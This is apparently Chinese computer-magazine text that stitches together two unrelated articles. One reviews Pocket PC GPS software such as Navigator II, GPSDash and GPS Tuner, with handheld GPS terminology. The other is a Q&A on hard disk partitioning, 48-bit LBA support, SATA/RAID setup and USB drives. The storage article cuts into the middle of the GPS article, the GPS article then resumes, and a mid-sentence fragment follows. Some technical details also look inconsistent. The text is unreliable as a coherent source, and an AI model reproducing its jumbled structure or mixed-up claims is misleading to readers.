在记录轨迹时，有一些特定的标志，如图29所示。红旗图标是记录当前点信息，相当于手持机上的MARK键。而绿色箭头是选择记录的航点信息用来导航，相当于手持机上的GOTO键。最右边齿轮图标是用来设置各项参数的，包括GPS参数设定，超速提醒设定，航点管理等，其他还有插件管理等选项。

轨迹储存后的界面如图30所示。另外，Navigator II还有一款姊妹软件Navigator，其界面和功能更是模仿专业手持机，使用很方便，两款软件可以共用航点、轨迹图等信息。

#### 2. GPSDash

GPSDash 是一款进行徒步旅行、单车远足、驾驶等户外活动的最佳伴侣。GPSDash 能够识别从 GPS 设备接收的符合NMEA0183协议的 GPS 信号，通过 GPSDash 的 7 个仪表盘分别可以监控速度、指南针、高度计、时钟（GPS 标准时间）卫星信号接收状态和质量、里程数等，如图 31 所示。支持系统时钟同步功能，还具有很特别的运动回放功能，如图 32 所示。

GPSDash 优于 Navigator II 的地方在于兼容各种 Raster 格式的地图（GIF、PNG、JPEG、BMP 等），通过两个基准点来简单的进行地图校准。可以基于你当前的位置自动选择最佳地图显示，支持地图漫游功能，可以在地图上实时显示你当前的位置，并记录航点进行导航等，如图 33 和图 34 所示。

支持基本的地图位置跟踪功能，可以帮助你找到回家的路。GPSDash 还可以直接显示出地图上任意两点的直线和轨迹距离，如图 35 所示。

这款软件的界面简洁美观，主界面同时显示 6 个表盘，非常方便！而且还能随意地把你最需要的数据调换到最大的那个表盘。可以通过航点选择来进行简单的导航。软件内置了世界一些大城市的航点，选择航点后指南针表盘会显示出航点方向及直线距离。GPSDash 还可以创建 NMEA 数据日志，并且可以重放数据日志（实时 / 加速）。

> 小知识：前进方向（Heading）
> GPS 没有指北针的功能，静止不动时它是不知道方向的。但是一旦动了起来，它就能知道自己的运动方向。GPS 每隔一秒更新一次当前地点信息，每一点的坐标和上一点的坐标一比较，就可以知道你前进的方向，不同 GPS 关于前进方向的算法是不同的，基本上是最近若干秒的前进方向，所以除非你已经走了一段并仍然在走直线，否则前进方向是不准确的，尤其是在拐弯的时候你会看到数值在变个不停。
> GPS 中的方向是以多少度显示的，这个度数是手表表盘朝上，12 点指向北方，顺时针转的角度。有很多 GPS 还可以用指向罗盘和标尺的方式来显示这个角度。GPS 的方位角是以正北作为 0 度，正东为 90 度，正南为 180 度，正西为 270 度。

#### 3. GPS Tuner

如果要把 “PPC+GPS” 平台作为一款高精度多功能的手持机来用的话，GPS Tuner 是一款必不可少的软件，号称是 all in one gps software，Megal ith GPS Tuner 是一款高精度的测量、定位和导航软件，提供便捷的路径点、导航文件、导航路径等管理功能。可使用地图；支持 GPX；带电子罗盘。同时具备路线记录和分析，速度和海拔图表显示，路线处理，NMEA 日志记录和实时回放等功能。目前常用 V4.0 版，最新的 V5.0 BETA 也已经面世，大家可以去其官网下载试用。要注意安装前需先安装微软 PPC 上的 .net 支持软件。

软件主界面上有下面四大功能：
轨迹分析报告：分为轨迹分析报告和路线分析报告两大部分，可以监控全程的速度、最高速度、平均速度、直线速度、海拔、最大高度、最小高度、攀登、继承、长度、总时间、移动时间等，相当全面，几乎没有软件能够逾越，如图 36 所示。其中直线速度是这个软件的独特统计功能。

地图：和其他手持机软件相比，GPS Tuner 的地图功能比较强大，和 ozi 有些类似。我们可以打开一张标量地图然后标出你的位置，可惜地图资源实在是太少了。该软件还支持 3D 地图功能，其实就是把地图倾斜一下，弄成一个仿 3D 的效果，虽然没啥实用意义，但是很有创意。地图上可以添加航点和路标，添加的时候还能自定义图标，还可以添加声音。在地图上，用触笔在你想知道距离的两点上画一条线。软件马上就能计算出你画的这条线的距离是多少，能够精确到 10M，如图 37 所示。

数字指南针：就是一个大的指南针，同时也可以设定航点坐标，指示导航时的方位，当然和所有的 GPS 软件一样，要运动起来才能定出方向，如图 38 所示。

航点管理：这个就是对航点管理的功能，对航点的分类非常细致，轨迹和路线也同样能够管理。使用起来非常方便。

GPS Tuner 的主要功能就是上面几个，其他还有软件相关参数设定等。总体而言，在PPC上的手持机软件中笔者认为功能以该软件为最强大，上手也比较简单。但笔者日常使用最多的还是Navigator II。

#### 4. 手持GPS接收软件的基本应用

前面谈到，PPC上的手持机软件，其基本作用就是模拟专业GPS手持机的功能。因此下面为大家介绍一下GPS手持机的使用情况，供大家在使用这类软件时参考。

首先给大家简单解释一下与手持GPS有关的术语及基本功能：

- **路标 (Landmark or Waypoint)**: GPS内存中保存的一个点的坐标值。在有GPS信号时，按一下“MARK”键，就会把当前点记成一个路标。路标是GPS数据核心，它是构成路线的基础。标记路标是GPS主要功能之一，也可以从地图上读出一个地点的坐标，手工或通过计算机接口输入GPS，成为一个路标。
- **路线(ROUTE)**: 路线是GPS内存中存储的一组数据，包括一个起点和一个终点的坐标，还可以包括若干中间点的坐标，每两个坐标点之间的线段叫一条“腿”(leg)。常见GPS能存储20条线路，每条线路30条“腿”。各坐标点可以从现有路标中选择，或通过手工/计算机输入数值。
- **前进方向 (Heading)**: 请参看本文前面的介绍。
- **导向(Bearing)**: 根据当前位置，计算出导向目标对你的方向角，按此方向前进即可走到目的地。有些GPS把前进方向和导向功能结合起来，只要用GPS的头指向前进行方向，就会有一个指针箭头指向前进行方向和目标方向的偏角，跟着这个箭头就能找到目标。
- **足迹线(Plot trail)**: GPS可以记载自己的运动轨迹。一般GPS能记录1024个以上足迹点，足迹点的采样有自动和定时两种方式，自动采样由GPS自动决定足迹点的采样方式，一般是只记录方向转折点，长距离直线行走时不记点；定时采样可以规定采样时间间隔，和路标不同，足迹线上的点不能单独引用，主要用来画路线图和使用“回溯”功能。
- **回溯(Trace back)**: 顾名思义就是按照原路返回，使用此功能时，它会把足迹线转化为一条“路线”(ROUTE)，路点的选择是由GPS内部程序完成的，一般是选用足迹线上大的转折点。同时把此路线激活为活动路线，用户即可按导向功能原路返回。

手持式GPS最重要的就是MARK键和GOTO键使用。MARK键用于定位，即把当前的坐标存到内存里，GPS会自动为这个点起一个名字，而GOTO用于导航，如果有一个已知的点位已经存到了GPS的内存里，并且起了名字，那么按GOTO，再选那个点的名字，就可以计算出从此地到那个已知点的直线距离。MARK和GOTO，也就是定位和测距，是GPS最基本的功能。很多手持式GPS还能与电脑进行连接，上传下载GPS航点数据，如果计算机系统中有GPS软件和电子地图，GPS航点还可以直接投影到电子地图上。

手持GPS与详细地图配合使用时有最好的效果，若有目的地附近的精确地图，可以预先规划线路，先在地图上进行规划，制定行程计划，按照线路复杂情况和里程，建立一条或多条线路（ROUTE），在图上读出路线特征点的坐标，输入GPS建立线路的各条“腿”,并把一些单独的标志点作为路点(Waypoint)输入GPS。行进时一是利用GPS确定自己在地图上的位置，二是按照导向功能指示的目标方向，配合地图找路，向目标前进。同时一定要记录各规划点的实际坐标，针对每条规划线路建立另一条实际线路，作为原路返回时使用，也可作为路线资料供后人使用。因此我们在使用手持GPS时，最好携带一个录音设备（比如带录音功能的手机或MP3播放器），标记路标后不改变其默认名字，而是录音记录这个路点的详细描述。行程结束后，可根据录音把GPS记载的数据整理成线路描述文件保存，以后别人就可以使用这组数据走这条线路了。

由于国内大比例尺地图十分难得，GPS使用效果受到一定限制。无图使用是更为常见的使用方式。比如使用路点定点，要找的地点坐标必须已经以路标的形式存在于GPS的内存中，按GOTO键，从列表中选择你的目的路标，然后转到“导向”页面，上面会显示你离目标的距离、方向角等数据。另外就是路线导向，把某条路线激活，“导向”页会引导你走向路线的第一个点，一旦到达，目标点会自动更换为下一路点，直至到达最终目标。

最后我们要将GPS手持机软件与GPS纯电子地图软件区分清楚。GPS纯电子地图软件，如“全中国电子地图”、OZI必须依赖地图存在，没地图就没法用。而GPS硬件导航器、GPS导航软件，如GPS领航员、GPSLOOKer等，不依赖地图，没地图也能用。可以在只有地名坐标，而道路不明确的情况下，利用GPS本身的指向功能到达目的地。

## 六、 PPC上其他GPS应用软件简介

PPC上的GPS应用除了上面介绍的导航、地图、手持三大类软件外，还有很多GPS应用方面的其他软件。下面对其中比较有特色的进行一些简单介绍。

GPS Speed Sentry: 是Tchart Development公司出品的一款简单实用的GPS汽车驾驶助手，通过连接GPS设备，PPC可以提供丰富的行驶信息，包括行驶速度、海拔高度、地理位置及方位角等，如图39所示。

## 数据存储、保护、备份、恢复 方案完全手册

文/方成亮

### 一、硬盘的安装与分区

作为最重要的存储设备之一，硬盘也是大家接触得最多的。在使用硬盘之前，我们必须对其进行分区，这将为今后的数据管理打下坚实的基础。

#### 1. 大容量硬盘与主板的兼容性

**问：** 我准备购买一个200GB的硬盘，但是不知道是否与我的主板兼容，会不会出现只能识别部分容量的情况？

**答：** 如果使用137GB以上容量的硬盘，必须满足三个条件：南桥芯片（磁盘控制器）支持、主板BIOS支持以及操作系统支持，其中前两个是刚性条件，几乎没有任何回旋余地。根据查阅的技术资料，Intel从ICH系列开始、VIA从VT8233A开始、SiS从961开始、nVIDIA全系列南桥都能够提供对137GB以上容量的支持，也就是说磁盘控制器支持48bit寻址。此外，大多数支持ATA66的IDE/RAID卡也能支持137GB以上容量。可以肯定的是，如果芯片组做不到这一点，使用任何软件都无法突破极限，只能使用跳线强制减小容量，部分芯片组允许将大容量硬盘识别为137GB。至于BIOS，一般2002年以后推出的固件都不会有问题，而且各大主板厂商都十分热衷于BIOS升级，甚至将此作为一项售后服务。需要提醒大家的是，在面对以往32GB限制时，我们可以使用DM分区软件中的DDO动态驱动来解决BIOS限制，然而它在面对137GB容量限制时已经无能为力。最新普及版本的DM为9.57，其中附带的DDO功能依然无法支持48bit寻址。不少文章都宣称使用DDO能够解决BIOS识别问题，然而实践证明这是行不通的，至少当前版本的DDO还无法做到这一点。

#### 2. 检测BIOS是否存在137GB限制

**问：** 我的主板是KT266A，但无法确定是否支持137GB以上的硬盘。在不升级最新版本BIOS的情况下，如何才能确认该主板的BIOS可以支持48bit寻址？

**答：** 一般2002年以后发布的BIOS都可以支持137GB以上容量。如果实在无法确定，可以使用Intel 48-bit LBA Test Program软件来检查一下（ftp://download.intel.com/support/chipsets/iaa/48lbachk.exe）。该软件需要在DOS下运行，使用前先挂接上一块容量超过137GB的大硬盘，运行软件后程序会自动检测到已连接ATA和ATAPI设备，并给出相应的提示信息。如果检测结果显示为“PASSED”，说明主板BIOS支持48bit LBA；显示为“FAILED”则表示不支持；显示为“UNDETERMINED”则说明测试程序也不能确定主板BIOS是否支持，多数情况是因为当前系统中没有连接超过137GB的硬盘。

#### 3. 使用Fdisk分区的基本方法

**问：** 我的120GB硬盘准备重新分区格式化，再安装系统。由于这次准备安装Windows Me，操作系统的安装程序没有格式化功能。如果使用Fdisk分区，应该如何操作？

**答：** 在划分分区之前，我们必须对硬盘分区的概念有一个基本认识。从概念上说，硬盘可以划分为基本分区与扩展分区。基本分区用于存放系统文件、分区表信息，而扩展分区一般进行设计存储。为了方便管理，我们常常将扩展分区再次分割成多个逻辑分区。硬盘分区的基本步骤是：建立基本分区→建立扩展分区→建立逻辑分区→激活硬盘主分区。

-   **（1）建立基本分区**
    在Fdisk的主菜单依次选择“1.Create DOS partition or Logical Dos Drive”→“1.Create Primary DOS Partition”，系统会问你是否需要将基本分区的容量设定为硬盘的最大容量，不使用扩展分区，整个硬盘只有一个C盘。当然，这种分区方式并不符合大多数用户的使用习惯，因此建议选择No。随后，系统会要求输入主分区的大小。具体使用多大空间，大家可以根据硬盘总容量以及自己的使用习惯来确定，建议设定为2500～4000MB。完成这些操作后，我们又会回到主界面。

-   **（2）建立扩展分区**
    在主菜单依次选择“1.Create DOS partition or Logical Dos Drive”→“2.Create Extended DOS Partition”。系统默认使用最大容量建立扩展分区，直接回车即可。一般情况下，我们没有必要缩小扩展分区的容量，除非是为了安装LINUX等操作系统。

-   **（3）建立逻辑分区**
    在建立好扩展分区之后，系统会立即要求建立逻辑分区。建立逻辑分区时依次输入所需分区的空间大小，直到将所有的扩展分区空间分配完毕为止。建议大家在划分前有一个总体安排。一般情况下，扩展分区设定为1～4个，太多将不便于管理。

-   **（4）激活硬盘主分区**
    建立扩展分区之后，必须进行主分区激活，以便系统在启动时能够引导一些重要参数。一旦完成建立逻辑分区的操作，系统会提示激活硬盘主分区。此时按下ESC键，选择“2.Set active partition”。通常将partition1设定为激活主分区。

经过以上四个步骤，硬盘分区工作基本完成。连续按几下ESC退出Fdisk，此时不能立即看到分区，必须先重新启动。随后要逐一格式化各分区，具体的命令为Format X：。注意不要添加任何参数，否则将无法完成格式化。

#### 4. 操作系统的选择与设置

**问：** 因为配置比较老，在升级大硬盘之后，我还是想使用 Windows Me 操作系统，这样是不是可以？另外，如果升级到 Windows 2000 和 XP，是否直接能支持大容量的分区？

**答：** Windows 9x 操作系统无法支持 48bit LBA 模式，也就是说其附带的 Fdisk 工具根本无法识别大容量硬盘，肯定不适合使用 160GB 以上的大容量硬盘。即便是通过其它分区软件完成分区操作，每个分区的容量也不能超过 64GB，的确很不方便，而且很容易出现一些意想不到的兼容性问题。建议选择支持 48bit LBA 模式的 Windows 2000/XP/2003 操作系统，分区操作可以与操作系统安装同步完成，或者在已经安装 Windows 2000/XP/2003 操作系统的电脑上挂接第二块硬盘进行分区。

但是，Windows 2000/XP 默认情况下没有启用对 48bit LBA 模式的支持，需要再安装补丁程序。通常情况下，Windows 2000+SP4、Windows XP+SP1 均能保证硬盘的正确识别与使用。此外，即使 Windows 2000 打过 SP1 的补丁，也还需要检查 Atapi.sys 文件的版本，因为只有 5.1.2600.1135 版本才能完全支持 48 位 LBA。对于 Windows XP 来说，Atapi.sys 文件应为 5.1.2600.1152 版本，否则可能会在访问大于 137GB 的数据时出现溢出 Bug。

为了确保操作系统激活 48bit LBA 模式，建议大家修改一下注册表，Windows Server 2003 用户可以免去这一步骤。Windows 2000+Service Pack 3/4 用户展开注册表 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ACPI\Parameters，然后新建一个名为 EnableBigLba 的 DWORD 键项，其值为 1；Windows XP+Service Pack1/2 用户展开 HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\ACPI\Parameters，新建一个名为 EnableBigLba 的 DWORD 键项，其值为 1。最后，建议大家确保每个分区容量不超过 137GB，一旦分区容量在 64GB 以上就尽量使用 NTFS，而不要使用 FAT32。

#### 5. 大容量硬盘如何分区才合理

**问：** 我的硬盘容量有 200GB，如何分区才比较合理？能否给一个建议性的方案？

**答：** 大容量硬盘分区太多会出现一些问题：一是浪费空间多，分区过多导致可充分利用的空间减少而引起浪费，并且由于目前的软件体积较大，还有可能引发空间不足；二是分区越多则形成的分区表越大，分区表出错的几率也增大。从另一个角度讲，单个分区太大，同样难以管理，大容量的分区会因为簇太大造成小文件占据大空间的浪费。因此，在分区之前应选择好操作系统与分区文件模式。

若使用 Windows 98/Me 操作系统，硬盘最大分区不宜超过 40GB，因为超过 40GB 后使用的簇太大容易造成空间浪费；若使用 Windows 2000/XP/2003 操作系统，则最大分区容量不能超过 137GB，否则极易出现容量无法识别的问题。在分区文件模式的选择上，应根据需要合理选用 FAT32 或 NTFS 格式。选用 FAT32 分区格式可带来更好的性能，而且与 DOS 兼容性较为出色；NTFS 格式的簇比较合理，能有效地利用磁盘空间，不容易产生碎片，对单个大文件读写有优化功能，是值得大硬盘用户使用的分区格式。因此，建议两种分区格式结合使用。

一般而言，建议将硬盘按系统、软件、资料和备份四大类进行分区。以 200GB 硬盘为例，操作系统大约占用 20GB 左右的分区、个人文档区占 10GB 左右、软件存放区 40GB、游戏存放区 60GB、多媒体娱乐区 60GB、重要资料备份区 10GB，这样累计只用 6 个左右的存储区即可将硬盘划分完毕。

需要注意的是，操作系统所占分区无须太大，一般在 10～20GB 左右，就足以安装系统及一些常用的应用软件。至于其它应用软件和游戏，应选择与操作系统不同的分区进行存储，在使用 Ghost 备份分区时就可节省大量空间。操作系统及游戏分区均可采用 FAT32 模式，方便用 Ghost 做备份，而且对提高性能有一定的好处。至于其它分区，使用 NTFS 格式更有助于提高空间利用率。

#### 6. IDE设备的连接顺序

**问：** 我现在升级了一个 160GB 硬盘，和原先的 40GB 硬盘共用。不过，还有一个 IDE 光驱，怎样连接才能避免降低硬盘速度？

**答：** 安装双硬盘之后，如何解决 ATA 模式的识别问题十分关键。如果两个硬盘都支持 ATA100/133，建议直接将双 IDE 硬盘连接在一个 IDE 通道，光驱安装在另一个 IDE 通道。如果将硬盘与只能支持 ATA33 的光驱连接在一起，很容易造成 ATA 模式降低，性能会明显下降。假设其中一个硬盘只能支持 ATA66/33，那么建议将其与光驱安装在一个通道，新的大容量硬盘独立使用 IDE 通道。

事实上，一个 IDE 通道中安装不同的 ATA 模式设备是可行的，但是这往往会带来一些意外，特别是 VIA 和 nVIDIA 芯片组，很容易出现故障。此外，安装新硬盘之后强烈建议重新安装磁盘驱动。安装完毕之后，可以在设备管理器的磁盘控制器属性中查看当前硬盘的工作模式，其中 DMA5 代表 ATA100。至于非 Intel 芯片组和 Maxtor 硬盘所支持的 ATA133，一般不用太在意，因为 ATA100 对于 IDE 硬盘的内部传输率而言已经绰绰有余，即便 ATA133 硬盘工作在 ATA100 模式下也不会降低性能。如果升级的大容量硬盘是 SATA 接口，就更不用担心传输模式的识别了。IDE 硬盘与 SATA 硬盘相互之间并不会影响。

#### 7. 解决盘符交错问题

**问：** 我在安装双硬盘时遇到“盘符交错”问题。第一硬盘原来有 C、D、E 三个分区，分别标记为 C1、D1、E1，第二硬盘有 C、D 两个分区，分别标记为 C2、D2。可是装双硬盘后，硬盘分区的顺序将为 C-C1，D-C2，E-D1，F-E1，G-D2。原来第一硬盘的 D、E 分区变成了 E、F 盘，在 C、E 盘之间嵌入了第二硬盘的 C 分区。“盘符交错”之后，原来安装在双硬盘上的软件、链接等因路径错误而无法正常工作，请问该怎么办？

**答：** 我们可以采取以下两个措施来避免“盘符交错”：

**方案一：**
如果两块硬盘上都有主引导分区，可在 BIOS 中只设置第一硬盘，而将第二硬盘设为 None，这样在 Windows 或 Linux系统中就会按IDE接口的先后顺序依次分配盘符，避免“盘符交错”，也不会破坏硬盘数据。这样做还有好处，如果在两块硬盘的主引导分区分别装有不同的操作系统，可以通过改变CMOS设置激活其中的一个硬盘，屏蔽另一个硬盘，从而启动相应的操作系统。缺点是在纯DOS下无法看到被BIOS屏蔽的硬盘。不过现在NTFS分区时代已经与DOS彻底决裂，因此这一缺陷几乎可以被忽略。

**方案二：**
只在第一硬盘上建立主分区（当然还可以有其它逻辑分区），而将第二硬盘全部划分为扩展分区，然后再在其中划分逻辑分区，就可以彻底避免“盘符交错”了。不过，对第二硬盘分区前，要备份好你的数据。Windows 2000/XP/2003操作系统自带了磁盘管理器，点击“开始”→“设置”→“控制面板”→“管理工具”→“计算机管理”，切换到“磁盘管理”，此时就可以为每个分区分盘符。由于第二个分区已经不存在主分区，调配时没有任何限制。

#### 8. SATA与PATA硬盘和睦相处

**问：** 原来使用的是IDE硬盘，现在准备添加一个SATA硬盘，这两种硬盘可以同时使用吗？

**答：** 尽管SATA与PATA（IDE）硬盘采用完全不同的接口，但是要和睦相处并不困难。连接好数据线与电源接口后，只需要在BIOS中指定哪个硬盘作为启动盘即可。对于Intel芯片组而言，由于南桥芯片中的SATA占用一个IDE通道，因此设置过程略有特殊。以I865PE+ICH5芯片组的主板为例，进入BIOS设置菜单后选择Main→Configuration Menu，在Onboard IDE Operate Mode下面可以选择两种IDE操作模式：兼容模式（Compatible Mode）和增强模式（Enhanced Mode）。其中Compatible Mode代表将SATA硬盘端口映射到并行IDE通道的相应端口，通常适用于DOS/Win98/WinME系统；Enhanced Mode下的SATA硬盘将使用独立的IDE通道，不与原PATA设备冲突，但仅适用于Win2000/XP/2003系统。

这两种模式的实际区别并不大，Win2000/XP/2003用户甚至可以采用兼容模式。真正重要的是下一步的通道映射设置。选定兼容模式后，系统提供Primary PATA+SATA、Secondary PATA+SATA以及PATA Ports Only几种选择。从字面意思不难理解，第一种表示将PATA硬盘作为启动盘；第二种表示将SATA硬盘作为启动盘；第三种表示只使用PATA硬盘而禁用SATA硬盘。至于非Intel芯片组则简单得多，BIOS中SATA通道根本不与PATA通道共用，直接从某一选项来决定将哪个硬盘作为启动盘。如果使用PCI接口的SCSI卡安装串行硬盘，需要在BIOS中将第一启动设备指定为SCSI，其优先权就会高于并行硬盘。需要注意的是，不同品牌的主板肯定在设置上有所区别，但是大致方法如此，大家可以举一反三。

#### 9. 老主板安装串行硬盘

**问：** 我的主板没有SATA接口，是不是可以购买PCI卡来实现对SATA硬盘的支持？

**答：** 对于那些准备升级硬盘的用户而言，购买Serial-ATA串行硬盘是明智的选择，唯一需要解决的问题是如何通过Serial-ATA扩展卡安装串行硬盘，毕竟nForce2、VIA KT400、Intel 845系列、SiS648等主板都不具备Serial-ATA接口。只要给主板安装上附加的Serial-ATA扩展卡，它将完全可以兼容Serial-ATA串行硬盘，不会导致性能优势无法发挥。

Serial-ATA扩展卡一般采用普通PCI接口。少数支持RAID5的高端Serial-ATA扩展卡，可能会为了提高性能而使用66MHz的PCI接口，不过这类产品往往价格不菲，不适合桌面用户。我们以百事灵的SPCI-1B Serial-ATA扩展卡为例，它采用Silicon Image出品的SATALink SiI3112ACT芯片，提供两个独立的150MB/s的Serial ATA接口，支持RAID0或者RAID1工作方式。固定Serial-ATA扩展卡很简单，在主板上选择一个合适的PCI插槽即可。需要注意的是，此时应尽量避开AGP显卡等发热量较高的设备，并尽可能靠近硬盘的安装位置，这对于提高稳定性有一定好处。Serial-ATA的连接方法与使用主板上的Serial-ATA接口完全一样，这里就不重复了。

#### 10. Serial-ATA RAID的组建方法

**问：** 我手里有两块SATA硬盘以及PCI接口的扩展卡，请问是不是可以像以前IDE时代那样，直接组合成RAID0磁盘阵列？

**答：** 目前Serial-ATA硬盘在软件设置方面还稍有不便，特别是在使用扩展卡的情况下。正确连接Serial-ATA硬盘的数据线以及电源，在系统启动时按下Ctrl+S或者F4功能键，Serial-ATA扩展卡会自动调用BIOS调试界面。需要注意的是，并不是每一款Serial-ATA扩展卡都采用相同的BIOS呼叫功能键，具体要查阅产品说明书。进入BIOS之后，我们会发现Serial-ATA扩展卡已经检测出相应的Serial-ATA硬盘，接下来需要设定工作模式。对于单个Serial-ATA硬盘而言，基本上使用默认设置即可。如果拥有两个Serial-ATA硬盘，组建RAID磁盘列阵将是最佳选择。

与传统IDE RAID相比，Serial-ATA RAID在带宽上拥有更多优势，因此性能表现更加出色。百事灵SPCI-1B Serial-ATA扩展卡的BIOS设置十分简洁，在主菜单选择“Create RAID Set”，BIOS会要求用户确认创建Striped（RAID0）还是Mirrored（RAID1）模式。前者可以大幅度提高磁盘性能，同时不会牺牲容量；而后者尽管会牺牲容量，但是可以令数据安全性提升一倍。与IDE RAID一样，Serial-ATA RAID也需要设定Chunk Size。Chunk Size就是RAID块操作的具体大小，如果用户需要进行视频编辑等大数据量操作，就要尽量设置得大一些；而如果仅仅需要处理琐碎的数据，那么设定为64KB左右就足够了。

完成Serial-ATA扩展卡的BIOS设置后，Serial-ATA硬盘就可以正常使用。但是，与主板上的Serial-ATA接口一样，采用扩展卡连接Serial-ATA硬盘的用户，在安装Windows XP/2000操作系统时，必须在系统提示寻找SCSI设备时按下F6键，然后装入驱动程序软盘。待操作系统安装完毕之后，我们需要将Serial-ATA硬盘作为第一启动设备。进入BIOS，在Advanced BIOS Setup菜单中将“First Boot Device”设定为“SCSI”，让其优先权位于板载磁盘控制芯片之前。

GPS Speed Sentry

GPS PAD：结合了书写功能的 GPS 导航软件，除了具有通常 GPS 导航软件的功能外，它还可以导入 NMEA、TomTom、Mobile Navigator、TOP 50 的地图系统，在地图上自由手写和标记，如图 40 所示。是“驴友”们的最爱。

VisualGPSce：功能是可以图示显示当前速度、高度、方向、卫星星历，可以记录下运动的轨迹，而且还是接收器初始化时的强大的搜星工具，如图 41 所示。

MASPware GPSMeter：一款专业的 GPS 工具。完成距离测量和时间估算都变得非常简单，只要使用具备软硬件要求的设备就能变得出奇的简单，只要带着它走一下就好了！测量的精确度那就要看你的 GPS 设备了，软件会根据数据计算到最精确；另外，MASPware 还可以运用一定的算法评估 GPS 设备的精确度，并使用最精确的结果，应付一般的用途绝对绰绰有余。

Gps Viewer：是 PPC 上必备的 GPS 工具软件之一，可以让你的 gps 马上看到星图，该软件是用来检测 GPS 的 COM 以及 GPS 信号的软件，这个软件还有冷启动等功能，如图 42 所示。

Microsoft Pocket Streets：是微软推出的一款用于智能手持设备的定位软件，用户可方便地从网上下载多达数百个城市的免费地图，当然也可以从 MapPoint 或者 Streets & Trips 中获得地图，具备快捷的地址查询能力，如图 43 所示。Pocket Streets 甚至储存有大量 ATM 提款机位置的相关信息。可惜目前没有国内的相关地图。

CellTrack：手机网络定位软件，前面提到过 hw6515 GPS 一体机支持所谓 A-GPS 功能，在接收不到卫星信号但有移动信号的情况下，能从 GPS 平滑转换到 LBS，通过 GPRS 链接移动电信运营商的后台进行数据交换，从而实现定位。也就是说即使是在地下车库这样的地方，只要能接收到手机信号，也可进行卫星定位。而且一旦实现定位，信号接收非常稳定（需要申请使用中国移动的相应 GPS 应用增值服务）。实际上这一功能是通过网络实现的，如果你使用 PPC 智能手机，也可以尝试安装一款 CellTrack 软件，这是一款 GSM 网络免费 GPS 定位软件，根据手机基站 id 进行定位的软件，可以网络跟踪数据，而且是免费的哦。

星历下载软件：HP hw6515 支持一种两天一次的 Aidding 数据下载模式。通过这种模式，hw6515 只需要每两天更新下载一次 GPS 星历文件，6515 就可实现最快 5 秒钟的卫星定位，这是目前智能手机和 GPS PDA 设备所能做到的最快的定位速度。可以直接通过移动网络的 GPRS 来下载，也可以通过与电脑同步来下载。

Pocket Earth：一款功能强大、互动的 3D 地球仪工具，如图 44 所示。可以显示城市的时间、日期和夏令时的变化，可显示任何城市的日出/日落时间，有动画效果地旋转到指定城市，彩色的地形图、行政地图，以及其他地图，用户可指定路线文件（例如历史路线等），支持与 GPS（NMEA-0183 标准）连接定位当前位置。

GPS2GE：顾名思义，就是把 GPS 信号转换成 GE（Google Earth）的档案。软件安装完毕后，第一次执行时，它会先激活 GpsGate 软件。Google Earth 无疑是目前互联网上非常热门的应用软件，我们可以使用它来设计和评估线路，确定线路后将有关资料输入 PDA，实现导航，如图 45 所示。GPS 3D 导航时代已经到来。GPS 与 GE 配合使用，是目前比较热门的话题，在著名的 http://maps.google.com/ 网站上直接输入经纬度，就可以看到航点地图。如果你用 GPS 接收机储存了航迹，那可以将航迹转成 KML 文档，然后在 Google Earth 上显示路径与航点，回放你所走过的道路。另外现在有些数码相机也能连接 GPS 或者配合 GPS 接收设备确定野外照片的具体拍摄位置。

好了，尽管还意犹未尽，但受篇幅所限，关于 PPC 上的 GPS 应用就暂时谈这么多，希望能对你驾车及旅行有所帮助。本人毕竟水平有限，文中若有谬误和遗漏之处望各位 GPS 玩家不吝指出。

片之上，这一点对于那些拥有IDE RAID功能的主板尤为重要。

### 二、移动存储应用

#### 1. 切莫盲目抛弃软驱

问：现在大家都说软驱已经是鸡肋，可以用U盘替代。那么，装机时还有必要配软驱吗？

答：“软驱终结者”，这是很多U盘厂商宣传的标语。客观地说，未来的趋势肯定是这样，但是现在就下这样的结论未免为时过早。与传统的软驱相比，U盘仍有不便的地方。目前还有不少用户在使用软驱，因此仍有大量的1.44MB软盘介质活跃着，当别人与你交流数据时，如果没有软驱肯定会非常尴尬，因为U盘并不能读取软盘。此外，当别人需要临时拷贝一些数据并带走时，U盘就不太合适了。一张软盘的价格1元钱不到，送给别人也无所谓，但价格不菲的U盘能随便送人吗？因此，U盘短期内还不能完全取代软驱，只是一种强有力的补充！在学校使用软盘的机会比较多，建议配上一个软驱。

#### 2. 何谓无驱动型U盘

问：现在很多U盘都号称是无驱动型，这类产品到底是不是彻底免除了驱动安装？

答：目前几乎所有的U盘都号称是无驱动型的，因为它们在Windows Me/2000/XP/Mac OS 9.x/Mac OS X /Linux 2.4.x等操作系统下不用安装任何驱动程序，就能正常使用，并且支持热插拔。但是，由于Windows 98操作系统没有内置USB Mass Storage设备的驱动程序，因此这些号称无驱动型的U盘，在Windows 98下都要老老实实地安装驱动才能正常使用。部分移动存储设备也可以在Windows 98下不安装驱动程序而正常使用，不过这类产品极为少见，而且在结构上与我们今天讨论的U盘有很大不同。市面上的绝大多数产品都是基于Flash Memory（闪存）加读卡器的整合形式，而这种技术直到Windows 98开发之后才广为普及，造成目前这样的尴尬局面。大家不要把厂商宣传的“无驱动技术”当一回事，这并非什么先进技术，几乎任何U盘都能做到！

#### 3. 启动型U盘如何发挥作用

问：因为没有软驱，因此很希望买一个启动型U盘。是不是所有的启动型U盘都可以在普通主板上使用？

答：如果想要彻底摆脱软驱，选择启动型U盘还是很有必要，这对于从事电脑维修、装机等工作的朋友来说非常实用。由于产品本身的特性，它在引导系统时的速度比软盘快多了。不过，所有的启动型U盘都需要主板BIOS支持。为了实现启动功能，U盘都是靠模拟其它设备的方式来实现的。如爱国者迷你王及蒙恬的红极光，是靠模拟USB_HDD实现启动功能；而朗科的启动型U盘除了可模拟USB_HDD方式之外，还可以模拟USB_FDD启动。目前主流BIOS都已经支持USB设备的启动，如Award BIOS从6.0版即具备了这种功能。需要注意的是，并非所有使用Award BIOS 6.0以后版本的主板都能支持USB设备的启动，因为有些主板厂商在进一步编写BIOS时会把这一功能除去。建议大家在选购前先了解清楚自己的BIOS，看看启动设备列表中是否有USB_HDD、USB_FDD或者USB_ZIP等选项。不然，即使有了启动型产品也只能当作普通U盘使用，那将是极大的浪费。

#### 4. 加密型U盘是否保险

问：我的U盘经常需要保存一些公司的重要资料，因此比较关注加密功能。现在市场上的加密U盘到底能不能起到作用？

